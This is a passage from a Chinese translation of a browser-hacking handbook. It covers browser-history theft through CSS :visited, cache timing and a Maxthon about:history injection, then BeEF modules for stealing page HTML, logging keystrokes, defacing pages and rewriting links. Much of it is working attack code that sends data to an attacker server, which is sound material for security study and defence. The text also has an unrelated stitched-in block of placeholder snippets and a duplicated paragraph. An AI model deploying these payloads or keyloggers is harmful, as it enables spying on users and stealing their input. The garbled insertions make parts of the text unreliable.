在本次攻击中，你控制拖放目的 IFrame。当内容被拖放到你的 IFrame 时，Firefox 会将信息回传给你，即使是跨源的。这是因为代码库中未实现 IFrame 之间的拖放操作的跨源检查。在他的原始披露中，De Fulgentis 展示了如何通过窃取反 XSRF token 来针对 LinkedIn 用户，然后在目标用户的个人资料中添加任意电子邮件地址。

De Fulgentis 的技术再次明确表明，拖放操作缺乏同源策略（SOP）的执行。

### 利用浏览器历史记录

浏览器历史记录攻击会暴露其他来源的信息，让你能够判断浏览器（以及当然，用户）访问过哪些来源。

过去，一种有效的浏览器历史记录攻击是直接检查写入页面的链接颜色。你将简要探索使用 CSS 颜色的方法，但请记住现代浏览器已经为这种攻击进行了修补。

你还将探索基于时间（timing）的攻击方法。这些方法目前是最有效的，可以在多种浏览器中暴露浏览器历史记录信息。

还有其他一些特例，它们依赖于浏览器本身暴露的特定 API。本文将探讨一些较少人知的浏览器，如 Avant 和 Maxthon 浏览器，它们也容易受到这些历史窃取漏洞的影响。

#### 使用 CSS 颜色

在‘过去的美好时代’，可以通过 CSS 信息窃取浏览器历史记录。这主要是通过滥用 :visited CSS 选择器实现的。下面的技术（在 Full Disclosure41 中于 2002 年讨论）虽然简单，却非常有效。考虑以下链接：

```
<a id="site_1" href="http://browservictim.com">link</a>
```

CSS 选择器可以用来检查目标是否访问了前一个链接，从而判断它是否在浏览器历史记录中：

```
#site_1:visited { 
background: url(/browserhacker.com?site=browservictim); 
}
```

在此例中，背景选择器用于检查，但你可以使用任何可以指定 URI 的选择器。如果 browservictim.com 正好在浏览器历史记录中，那么会向 browserhacker.com?site=browservictim 发出一次 GET 请求。

Jeremiah Grossman 在 2006 年披露了类似技术，该技术依赖于检查链接元素的颜色。在大多数浏览器中，未访问过的链接默认显示为蓝色，已访问过的链接则显示为紫色。Grossman 的原始概念证明（PoC）42 中，将已访问过的链接样式覆盖为自定义样式（例如红色）。随后使用脚本动态生成页面上的链接（可能隐藏在用户视野之外），并与之前覆盖的红色样式进行比较。如果颜色匹配，则说明该站点已在浏览器历史记录中。下面是一个示例：

```
<html>
<head>
<style>
#link:visited {color: #Fc00f000;}
</style>
</head>
<body>
<a id="link" href="http://browserhacker.com" 
target="_blank">clickme</a>
<script>
var link = document.getElementById("link"); 
var color = document.defaultView.getComputedStyle(link,
 null).getPropertyValue("color");
console.log(color);
</script>
</body>
</html>
```

如果链接之前已被访问，且浏览器对该攻击保持脆弱，控制台输出会是 rgb(255, 0, 0)，对应 CSS 中覆盖的红色。若在最新的 Firefox（已修复该漏洞）中运行该片段，结果始终为 rgb(0, 0, 238)。

如今，大多数现代浏览器已经修补此行为。例如，Firefox 在 2010 年进行了修补。43

#### 使用缓存时间（Timing）

Felten 和 Schneider44 在 2000 年发表了《Timing Attacks on Web Privacy》一文，最早公开的关于缓存时间攻击的研究之一。该论文主要关注测量资源在有或没有浏览器缓存的情况下的访问时间，从而判断资源是否已经被缓存。该方法的局限之一是，在初始测试时查询浏览器缓存会对缓存状态产生污染。

Michal Zalewski45 则提出了一种非破坏性的浏览器历史记录提取技术，采用类似的缓存时间方法。截至本文写作时，该技术仍然在现代浏览器上有效。

Zalewski 的方法是通过在 IFrames 中加载资源、捕获同源策略（SOP）违规并阻止缓存修改来实现。IFrames 之所以适合此目的，是因为 SOP 强制执行，且可以阻止 IFrame 完全加载资源，从而避免本地缓存被修改。通过使用短时的加载和卸载操作，缓存保持不变。一旦确认某资源出现缓存不命中，则停止 IFrame 的加载。这样可以在稍后再次测试同一资源。

此技术最有效的目标资源是 CSS 或 JavaScript 文件，因为它们常被浏览器缓存，并且在访问目标网站时总是会被加载。需要注意的问题是，这些资源会在 IFrame 中加载，因此不应包含任何防止嵌入的逻辑（如 X-Frame-Options，除了 Allow 之外）。

下图 Figure 4-22 展示了该攻击的输出结果。在此例中，判断出用户访问了 [AboveTopSecret.com](http://AboveTopSecret.com) 和 [Wikileaks.org](http://Wikileaks.org)。

start figure 

**图 4-22：** 使用缓存时间进行浏览器历史记录提取



end figure 

在浏览上述两个网站时，通常会加载以下两个资源：

```
http://wikileaks.org/squelettes/random.js 
http://www.abovetopsecret.com/forum/ats-scripts.js
```

该技术的核心代码片段如下：


function wait_for_noread() {
  try {
    /*
     * 这是 SOP 违规发生的位置，因为我们正在读取加载到 IFrame 中的跨域资源的 `location.href` 属性。
     */
    if (frames['f'].location.href == undefined) throw 1;
  
    /*
     * 在 TIME_LIMIT 未到达之前，持续尝试读取 IFrame 中的 `location.href`。否则调用 `maybe_test_next()`，它会将 IFrame 的 src 重置为 about:blank，防止完整资源加载和缓存修改。
     * 然后继续处理下一个资源。
     */
    if (cycles++ >= TIME_LIMIT) {
      maybe_test_next();
      return;
    }
    setTimeout(wait_for_noread, 1);
  } catch (e) {
    /*
     * 捕获到 SOP 违规，确认被检查的资源已缓存。
     */
    confirmed_visited = true;
    maybe_test_next();
  }
}

当 SOP 违规在特定超时之前被捕获，意味着缓存命中。这说明资源已缓存，从而可以推断用户已经访问过加载该资源的网站。Figure 4-23 演示了这种行为。

 start figure 

**Figure 4-23:** SOP 违规错误



 end figure 

你可以在 [`browserhacker.com`](https://browserhacker.com) 网站或维基网站 [www.wiley.com/go/browserhackershandbook](http://www.wiley.com/go/browserhackershandbook) 查看该技术的完整源码，原始的三个 PoC 已被修改并合并为一个代码片段。

当 SOP 违规在特定超时之前被捕获，意味着缓存命中。这说明资源已缓存，从而可以推断用户已经访问过加载该资源的网站。Figure 4-23 演示了这种行为。

 start figure 

**Figure 4-24:** 调用专有的 `AFRunCommand` 函数



 end figure 

类似的漏洞也被发现于 Maxthon 3.4.5 build 2000。Maxthon 是另一款浏览器，和 Avant 类似，它会向 web 页面暴露非标准 API 以访问文件并甚至启动可执行文件。

Roberto Suggi Liverani 发现 47，`about:history` 页面的渲染内容缺乏有效的输出转义，这会导致可利用的条件。如果你诱导目标打开以下链接，恶意注入将在历史记录页面持久存在：

```
http://172.16.37.1/malicious.html#" onload='alert(1)'<!—
```

`onload` 属性中的代码会每次目标检查浏览器历史时执行。这里的有趣之处是，恶意 JavaScript 代码会在特权上下文中执行。`about:history` 页面恰好映射到自定义 Maxthon 资源 `mx://res/history/index.htm`，将代码注入该上下文可以窃取所有历史记录内容。例如，下面的代码解析历史记录列表中的所有链接：

```
links = document.getElementById('history-list')
.getElementsByTagName('a');
result = "";
for(var i=0; i<links.length; i++) {
  if(links[i].target == "_blank"){
       result += links[i].href+"\n";
  }
}
alert(result);
```

此负载可以通过以下链接包装并递交：

```
http://172.16.37.1/malicious.html#" onload='links=document.
getElementById("history-list").getElementsByTagName("a"); 
result="";for(i=0;i<links.length;i++){if(links[i].target=="_blank"
{result+=links[i].href+"\n";}}alert(result);'<!--
```

需要注意的是，这种跨内容脚本（Cross-content Scripting）漏洞在后续第 7 章中进一步探讨，并且是持久化的。第一次加载恶意内容到历史记录页面后，代码会在用户每次查看历史记录时执行。当用户打开浏览器历史记录页面时，结果类似于 Figure 4-25。

 start figure 

**Figure 4-25:** 注入的恶意代码作为链接被执行。



 end figure 

要发动真正的攻击，需要将 `alert()` 函数替换为第 3 章讨论的钩子技术之一，这样就可以将窃取的浏览器历史发送回收集服务器。


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```


18. Michael Coates. (2012). Firefox 16 的安全漏洞。检索于 2013 年 5 月 11 日 [`blog.mozilla.org/security/2012/10/10/security-vulnerability-in-firefox-16/`](https://blog.mozilla.org/security/2012/10/10/security-vulnerability-in-firefox-16/)

19. Opera Software. (2012). Opera 12.10 更新日志。检索于 2013 年 5 月 11 日 from [`www.opera.com/docs/changelogs/unified/1210/`](http://www.opera.com/docs/changelogs/unified/1210/)

20. Gareth Heyes. (2012). 提示：跨域访问对象构造器可以用于促进跨站脚本攻击。检索于 2013 年 5 月 11 日 from [`www.opera.com/support/kb/view/1032/`](http://www.opera.com/support/kb/view/1032/)

21. Gareth Heyes. (2012). Opera 跨域与视频教程。检索于 2013 年 5 月 11 日 from [`www.thespanner.co.uk/2012/11/08/opera-x-domain-with-video-tutorial/`](http://www.thespanner.co.uk/2012/11/08/opera-x-domain-with-video-tutorial/)

22. Roi Saltzman. (2012). DropBox 跨区域脚本攻击。检索于 2013 年 5 月 11 日 from [`blog.watchfire.com/files/dropboxadvisory.pdf`](http://blog.watchfire.com/files/dropboxadvisory.pdf)

23. Roi Saltzman. (2012). Google Drive 跨区域脚本攻击。检索于 2013 年 5 月 11 日 from [`blog.watchfire.com/files/googledriveadvisory.pdf`](http://blog.watchfire.com/files/googledriveadvisory.pdf)

24. Veracode. (2012). 前 100 万个网站的安全头信息。检索于 2013 年 5 月 11 日 from [`www.veracode.com/blog/2012/11/security-headers-report/`](http://www.veracode.com/blog/2012/11/security-headers-report/)

25. Anton Rager. (2002). 高级跨站脚本攻击（Evil XSS）。检索于 2013 年 5 月 11 日 from [`xss-proxy.sourceforge.net/shmoocon-XSS-Proxy.ppt`](http://xss-proxy.sourceforge.net/shmoocon-XSS-Proxy.ppt)

26. Stefano Di Paola and Giorgio Fedon. (2006). 伪造 Ajax。检索于 2013 年 5 月 11 日 from [`events.ccc.de/congress/2006/Fahrplan/attachments/1158-Subverting_Ajax.pdf`](http://events.ccc.de/congress/2006/Fahrplan/attachments/1158-Subverting_Ajax.pdf)

27. Ferruh Mavituna. (2007). XSS 隧道。检索于 2013 年 5 月 11 日 from [`labs.portcullis.co.uk/download/XSS-Tunnelling.pdf`](http://labs.portcullis.co.uk/download/XSS-Tunnelling.pdf)

28. Krzysztof Kotowicz. (2009). 野外中的新 Facebook 点击劫持攻击。检索于 2013 年 5 月 11 日 from [`blog.kotowicz.net/2009/12/new-facebook-clickjagging-attack-in.html`](http://blog.kotowicz.net/2009/12/new-facebook-clickjagging-attack-in.html)

29. Jesse Ruderman. (2002). 如果 rame 内容默认背景为透明。检索于 2013 年 5 月 11 日 from [`bugzilla.mozilla.org/show_bug.cgi?id=154957`](https://bugzilla.mozilla.org/show_bug.cgi?id=154957)

30. Robert Hansen and Jeremiah Grossman. (2008). 点击劫持。检索于 2013 年 5 月 11 日 from [`www.sectheory.com/clickjacking.htm`](http://www.sectheory.com/clickjacking.htm)

31. Rich Lundeen. (2012). BeEF 点击劫持模块及使用 REST API 自动化攻击。检索于 2013 年 5 月 11 日 from [`webstersprodigy.net/2012/12/06/beef-clickjacking-module-and-using-the-rest-api-to-automate-attacks/`](http://webstersprodigy.net/2012/12/06/beef-clickjacking-module-and-using-the-rest-api-to-automate-attacks/)

32. Giorgio Maone. (2010). 什么是 ClearClick 以及它如何保护我免受点击劫持？检索于 2013 年 5 月 11 日 from [`noscript.net/faq#qa7_4`](http://noscript.net/faq#qa7_4)

33. Marcus Niemietz. (2012). 游标劫持。检索于 2013 年 5 月 11 日 from [`www.mniemietz.de/demo/cursorjacking/cursorjacking.html`](http://www.mniemietz.de/demo/cursorjacking/cursorjacking.html)

34. Krzysztof Kotowicz. (2012). 再次点击劫持。检索于 2013 年 5 月 11 日 from [`blog.kotowicz.net/2012/01/cursorjacking-again.html`](http://blog.kotowicz.net/2012/01/cursorjacking-again.html)

35. Sebastian Lekies, Mario Heiderich, Dennis Appelt, Thorsten Holz, and Martin Johns. (2012). 当前浏览器提供的点击劫持保护方案的脆弱性和局限性。检索于 2013 年 5 月 11 日 from [`www.nds.rub.de/media/emma/veroeffentlichungen/2012/08/16/clickjacking-woot12.pdf`](http://www.nds.rub.de/media/emma/veroeffentlichungen/2012/08/16/clickjacking-woot12.pdf)

36. Krzysztof Kotowicz. (2011). 文件劫持：如何在浏览器中创建文件服务器。检索于 2013 年 5 月 11 日 from [`blog.kotowicz.net/2011/04/how-to-make-file-server-from-your.html`](http://blog.kotowicz.net/2011/04/how-to-make-file-server-from-your.html)

37. Michal Zalewski. (2010). 拖放可能被用于跨域窃取内容。检索于 2013 年 5 月 11 日 from [`bugzilla.mozilla.org/show_bug.cgi?id=605991`](https://bugzilla.mozilla.org/show_bug.cgi?id=605991)

38. Krzysztof Kotowicz. (2011). 使用假验证码进行跨域内容提取。检索于 2013 年 5 月 11 日 from [`blog.kotowicz.net/2011/07/cross-domain-content-extraction-with.html`](http://blog.kotowicz.net/2011/07/cross-domain-content-extraction-with.html)

39. Zeljka Zorz. (2011). Facebook 喷子骗用户分享反 CSRF 令牌。检索于 2013 年 5 月 11 日 from [`www.net-security.org/secworld.php?id=11857`](http://www.net-security.org/secworld.php?id=11857)

40. Luca De Fulgentis. (2012). UI 重定向混乱：Firefox 0day 与 Leakedin 事件。检索于 2013 年 5 月 11 日 from [`blog.nibblesec.org/2012/12/ui-redressing-mayhem-firefox-0day-and.html`](http://blog.nibblesec.org/2012/12/ui-redressing-mayhem-firefox-0day-and.html)

41. Andrew Clover. (2002). CSS 访问页泄露。检索于 2013 年 5 月 11 日 from [`seclists.org/bugtraq/2002/Feb/271`](http://seclists.org/bugtraq/2002/Feb/271)

42. Jeremiah Grossman. (2007). CSS 历史黑客。检索于 2013 年 5 月 11 日 from [`ha.ckers.org/weird/CSS-history-hack.html`](http://ha.ckers.org/weird/CSS-history-hack.html)

43. David Baron. (2002). Bug 14777-：访问支持允许查询全局历史记录。检索于 2013 年 5 月 11 日 from [`bugzilla.mozilla.org/show_bug.cgi?id=147777`](https://bugzilla.mozilla.org/show_bug.cgi?id=147777)

44. Edward W. Felten and Michael A. Schneider. (2012). Web 隐私的时间攻击。检索于 2013 年 5 月 11 日 from [`selfsecurity.org/technotes/websec/webtiming.pdf`](http://selfsecurity.org/technotes/websec/webtiming.pdf)

45. Michal Zalewski. (2012). 通过非破坏性缓存时间攻击快速提取历史记录。检索于 2013 年 5 月 11 日 from [`lcamtuf.coredump.cx/cachetime/`](http://lcamtuf.coredump.cx/cachetime/)

46. Mansour Behabadi. (2012). visipisi。检索于 2013 年 5 月 11 日 from [`oxplot.github.com/visipisi/visipisi.html`](http://oxplot.github.com/visipisi/visipisi.html)

47. Roberto Suggi Liverani. (2012). Maxthon––Cross Context Scripting (XCS)––about:history––Remote Code Execution。检索于 2013 年 5 月 11 日 from [`blog.malerisch.net/2012/12/maxthon-cross-context-scripting-xcs-about-history-rce.html`](http://blog.malerisch.net/2012/12/maxthon-cross-context-scripting-xcs-about-history-rce.html)

# 第 5 章

# 攻击用户

人类常被认为是信息安全中的“最弱环节”。有许多假设解释为何会如此。是我们固有的“乐于助人”的愿望？还是我们在快速变化的通信和技术前沿缺乏经验？或者，这仅仅是我们（往往）错误地信任彼此？

本章，你将专注于针对键盘前端用户的攻击。讨论的部分攻击利用社交工程战术，类似于前面章节中关于钩选浏览器的方法。其他攻击则利用浏览器特性，并存在对来自多个来源代码的错误信任。

# 伪造内容


-   [一种最简单且常被忽视的欺骗用户执行不当操作的方法，就是直接修改当前挂钩页面的内容。如果你能在某个源中执行 JavaScript，那么没有任何阻碍能阻止你获取当前文档的部分内容，或插入任意内容。这可以导致非常隐蔽且有效的方式，让用户在你的名义下执行操作。](https://example.org)

1.  这些通过修改 DOM 离散片段的技术是大多数后续攻击的核心。事实上，许多这些方法在早期关于启动和保持浏览器控制的章节中已经讨论过。

2.  那么从哪里开始？首先要知道要修改什么，你需要先知道当前文档里到底有什么。只要你的挂钩在文档的上下文中，这可以简单地通过获取 `document.body` 元素的值来实现。只要当前文档包含 `<body>` 标签，这将是该标签内的所有内容。

3.  任何 HTML 元素的 `innerHTML` 属性都可以被查询，以获取其自身及所有子元素的语法。BeEF 的“获取页面 HTML”模块正是这样做的：

```
  try {
    var html_head = document.head.innerHTML.toString();
  } catch (e) {
    var html_head = "Error: document has no head";
  }
  try {
    var html_body = document.body.innerHTML.toString();
  } catch (e) {
    var html_body = "Error: document has no body";
  }

  beef.net.send("<%= @command_url %>", <%= @command_id %>,
    'head='+html_head+'&body='+html_body);
```

4.  `html_head` 与 `html_body` 变量中填充的是文档的标题和正文的 HTML 内容。`toString()` 方法用于明确将它们转换为字符串，最后调用 `beef.net.send()` 方法将结果提交回 BeEF 服务器。

5.  开始特性

6.  * * *

7.  **BeEF 的 net.send 如何工作** 保持控制在第三章中已经被大量讨论，但在 BeEF 内部隐藏着大量有趣的代码，这些代码简化了命令模块向框架发送数据的方式。`beef.net.send()` 方法是一个完美的例子。为了提供命令模块可靠地向 BeEF 服务器提交数据的可靠方法，`beef.net.send()` 方法及其服务器端数据处理器被构建。你会在之前的 `beef.net.send()` 调用中注意到它包含三个参数——`@command_url`、`@command_id`，以及一个字符串值——例如 `‘head=’+html_head+’&body=’+html_body`。在 BeEF 在将命令模块提交到受害者浏览器之前，会在提交前将 `@command_url` 与 `@command_id` 字段替换为指向当前命令 URL 与其唯一 ID 的引用。当 `beef.net.send()` 将这些值提交回时，BeEF 服务器能够汇总哪个唯一的命令模块该响应所属。这使得攻击者可以并发提交多个命令模块，并保持响应与请求的同步。代码执行的步骤如下：

   - **Level1 1.** `beef.net.send()` 方法将来自命令模块或其他 BeEF 库的任意数据放入一个 JavaScript 数组中。
   - **Level1 2.** BeEF 的轮询器执行 `beef.net.flush()` 方法，该方法：
     - 将数组对象转换为 JSON 表示。
     - 对 JSON 变量进行 Base64 编码。
     - 将 Base64 数据切分为固定长度的块。
     - 使用多个异步 GET 请求流式将块发送回 BeEF 服务器，每个块都带有相应的序列标识符。

8.  **Level1 3.** BeEF 服务器收集所有响应，重新构建原始数据并重新组装块。

9.  你可以在 [`browserhacker.com`](https://browserhacker.com) 或在维基网站 [www.wiley.com/go/browserhackershandbook](http://www.wiley.com/go/browserhackershandbook) 查看完整的 `beef.net.send` 代码。

* * *

10. 假设挂钩页面的正文包含以下内容：

```
<div id="header">This is the title of my page</div>
<div id="content">This is where most of the content of my page rests.
  And this page has lots of interesting content</div>
```

11. 你可以通过执行以下 JavaScript 来操作 `header` 元素而不影响其他内容：

```
document.getElementById('header').innerHTML = "Evil Defaced Header";
```

12. jQuery 通过选择器的力量简化了这一过程。要使用 jQuery 以 BeEF 提供的方式完成同样的篡改，只需执行：

```
$j('#header').html('Evil Defaced Header');
```

13. BeEF 包含一个简单的模块，用于篡改挂钩页面的标准元素，即 HTML 正文、标题和图标。 “Replace Content (Deface)” 模块在覆盖现有内容时并不做任何保留。使用该模块时请小心，因为它会非常明显地被目标发现。该模块执行以下三个操作：

```
document.body.innerHTML = "<%= @deface_content %>";
document.title = "<%= @deface_title %>";
beef.browser.changeFavicon("<%= @deface_favicon %>");
```

14. 第一个操作将文档 `body` 元素的 HTML 内容替换为用户通过 `@deface_content` 变量提交的动态内容。请注意，通过 `@deface_content` 添加的 `<script>` 元素不会自动被处理并加入文档的 `<head>` 中。你可能需要使用 `defer2` 等属性来调整脚本执行的时机。

15. Ruby 的 Erubis 库用于在将模块发送到挂钩浏览器之前，对实际值进行动态绑定。第二个操作同样对 `document.title` 属性进行更改。最后，使用 BeEF 的 `changeFavicon()` 方法更新页面图标。该方法通过移除 `head` 元素中的所有现有图标元素并插入新图标来实现。例如：

```
<link id="dynamic-favicon" rel="shortcut icon"
href="http://browserhacker.com/favicon.ico">
```

16. 如果单纯的粗暴篡改仍不够隐蔽，那么 “Replace Component (Deface)” 模块可能更符合你的需求。该模块不替换整个 `document.body`，而是允许精确选择和替换 DOM 元素。其代码类似于之前的 jQuery 示例，用于重写特定元素：

```
var result = $j('<%= @deface_selector %>').each(function() {
    $j(this).html('<%= @deface_content %>');
  }).length;

beef.net.send("<%= @command_url %>", <%= @command_id %>,
  "result=Defaced " + result +" elements");
```

17. 借助 jQuery 的选择器，单个命令可以用来替换单个 DOM 元素或一组 DOM 元素。上述代码取 `@deface_selector` 变量，遍历这些元素并将其内部 HTML 内容替换为 `@deface_content` 变量。最后将修改元素的数量返回给 BeEF 服务器。

18. 除了这些篡改内容的方法，BeEF 还提供了许多其他模块，用于自动化 DOM 内容重写过程：

*   **Replace HREFs** — 类似于 “Replace Component” 模块，该模块遍历锚元素并替换 `href` 属性。
*   **Replace HREF (Click Events)** — 该模块与 “Replace HREFs” 类似，但只修改 `onclick` 事件处理程序，而不修改实际的 `href`。这类似于第三章中 “使用 Man-in-the-Browser 攻击” 章节讨论的 Man-in-the-Browser 技术。如果 `<a>` 元素已经包含 `onclick` 属性，此方法会简单地覆盖现有内容。根据需求，你可能需要修改默认行为以支持在单个 `onclick` 中堆叠多个动作。


-   [替换 HTTPS 链接]—再次，此模块与“替换链接”模块相似，但它将所有 https:// 网站的链接修改为 http:// 等价链接。该模块与第 2 章“ARP 操作”部分中引入的 sslstrip 概念一起在线工作。

-   [替换 TEL 链接]—更新所有 tel:// 链接为您指定的新电话号码。这对于移动设备上的浏览器特别有用，因为您可能能够拦截敏感的电话通话。

-   [替换视频]—将所有 <embed> 元素替换为嵌入的 YouTube 视频。

技术讨论中提到的方法并不是内容被篡改的唯一途径。一旦您在被钩子网站的 JavaScript 上下文中拥有控制权，您就可以随心所欲地操作 DOM。

# 捕获用户输入

修改页面内容可能帮助您诱导用户执行不良操作，但有时您无需修改浏览器中显示的内容即可获取敏感信息。除了用于在页面上显示视觉实体外，DOM 还用于设置和执行事件处理函数。Web 开发者使用这些特性为加载、点击和鼠标悬停事件等自定义函数进行绑定。

这些事件类型分为多个类别，如焦点事件、鼠标事件和键盘事件。下面的章节将介绍各种事件以及如何绑定函数到它们。由于 DOM 的层次结构，事件经常在元素之间上下传递。这称为事件流，是多个事件处理函数可能通过特定事件触发的重要组成部分。

在本节结束时，您将了解如何绑定自定义函数到许多浏览器例程。其中许多可以用于监控键盘输入、鼠标移动或窗口是否处于活动状态。

 start feature 

* * *

**Event Flow** W3C 定义了两种事件流：事件捕获和事件冒泡。无论哪种情况，所有事件都有指定的目标，目标事件应当保证执行。事件从文档根元素向下流经 DOM 一直到达目标。在目标元素与顶层元素之间的任何处理函数都可以在匹配事件类型（如 click 或 keypress）时捕获事件并执行其处理例程。目标的事件执行完毕后，事件处理例程会向上（或冒泡）沿同一 DOM 路径返回，同样执行处理例程。为何存在捕获和冒泡？最初，浏览器厂商实现了不同的方法；例如，Netscape 希望在事件下行时捕获事件，而 Microsoft 希望在事件上行时捕获事件。规范并未指定哪种方法，导致我们常常看到两种方法的混合。这体现了浏览器之间存在的奇怪但重要的差异。

* * *

 end feature 

## 使用焦点事件

每次用户访问网站时，浏览器都在与当前渲染页面的 DOM 交互。即使用户没有点击任何 HTML 元素或填写表单，浏览器仍可能将有价值信息提交给攻击者。例如，用户只需在页面上点击一次，然后离开，浏览器就会触发两个不同的事件：focus 事件和 blur 事件。

在前面的示例基础上，您可以通过执行以下 JavaScript 来为 focus 事件绑定函数：

```
window.addEventListener("focus", function(event) {
  alert("The window has been focused");
});
```

Internet Explorer 6 到 8 不支持 addEventListener()，而是使用 attachEvent()。4 为了简化事件处理的管理，jQuery 将此功能封装到其友好的 on() 函数中。BeEF 实现的 jQuery 示例代码如下：

```
$j(window).on("focus", function(event) {
  alert("The window has been focused");
});
```

为了进一步简化，jQuery 提供了另一个级别的简化——focus() 方法，使代码降至：

```
$j(window).focus(function(event) {
  alert("The window has been focused");
});
```

稍作扩展，您还可以捕获用户从窗口移除焦点时的事件：

```
$j(window).focus(function(event) {
  alert("The window has been focused");
}).blur(function(event) {
  alert("The window has lost focus");
});
```

得益于 jQuery 方法通常返回自身（jQuery 对象），您可以链式调用多个函数。上述命令在一次调用中同时为窗口对象的 focus 和 blur 事件绑定函数。该代码片段与 BeEF 初始化其日志功能非常相似，但 вместо调用 alert()，框架使用之前分析过的 beef.net.send() 函数将事件记录回 BeEF 服务器。

focus 和 blur 事件属于焦点事件类型，如 W3C 的 DOM Level 3 Events 工作草案所述。5 每种焦点事件类型都可以绑定到 DOM 中的任意元素，但不能绑定到文档本身。除了 blur 和 focus，W3C 还定义了以下事件，它们按顺序发生：

*   focusin — 在目标实际获得焦点之前触发。

*   focus — 在目标实际获得焦点时触发。

*   DOMFocusIn — 已废弃的 DOM 事件，建议使用 focus 和 focusin 替代。

*   focusout — 在焦点切换后，初始目标上触发。

*   blur — 在焦点丢失后触发。

*   DOMFocusOut — 已废弃的 DOM 事件，建议使用 blur 和 focusout 替代。

总体而言，浏览器在元素获得焦点时会触发比失去焦点时更多的事件。大多数事件处理函数会传入一个事件对象，该对象包含关于被聚焦的元素以及事件流中上下元素的信息。

作为攻击者，捕获焦点事件很有力量，因为它能提供目标是否正在查看特定窗口的信息。知道目标是否切换到了其他标签页，或是否最小化了整个浏览器，可以作为更广泛攻击策略的一部分。

## 使用键盘事件

如果您能够捕获鼠标和焦点事件，那么捕获其他有价值的交互（如键盘输入）也就合理了。Gmail 就是一个使用键盘快捷键的良好示例。启用后，6 Gmail 会挂钩到键盘事件处理例程，使用户无需抬起手即可浏览邮件并执行其他操作。

与焦点和鼠标事件类似，键盘事件也遵循特定顺序：

*   keydown — 按下一个键。

*   keypress — 按下一个键且该键具有字符值。例如，Shift 键不会产生 keypress 事件，但会产生 keydown 和 keyup 事件。

*   keyup — 释放键。

将自定义函数应用于这些事件，使攻击者能够监控各种任意输入，无论用户是否在填写表单。7 为了控制 BeEF 日志的冗长，设计决策是只记录鼠标点击事件和键盘按键事件。要捕获这些事件，BeEF 首先为事件绑定函数，如下所示。e 参数是事件对象，包含按键、位置、是否按下等信息：

```
$j(document).keypress(
  function(e) { beef.logger.keypress(e); }
);


-   [beef.logger.keypress()函数](https://example.org)判断用户正在输入的元素是否已更改（例如，用户在特定字段中输入，然后切换到另一个字段）。当元素更改时，已输入的之前字符会被提交回 BeEF：

```javascript
keypress: function(e) {
  if (this.target == null ||
       ($j(this.target).get(0) !== $j(e.target).get(0)))
  {
    beef.logger.push_stream();
    this.target = e.target;
  }
  this.stream.push({'char':e.which,
                    'modifiers': {
                      'alt':e.altKey,
                      'ctrl':e.ctrlKey,
                      'shift':e.shiftKey}
                    }
                  );
}
```

-   [beef.logger.push_stream()函数](https://example.org)汇总队列中的所有键盘输入，然后将它们提交回 BeEF 事件队列。在每次轮询请求时，队列中的数据会使用之前提到的 beef.net.send() 逻辑推送回 BeEF。

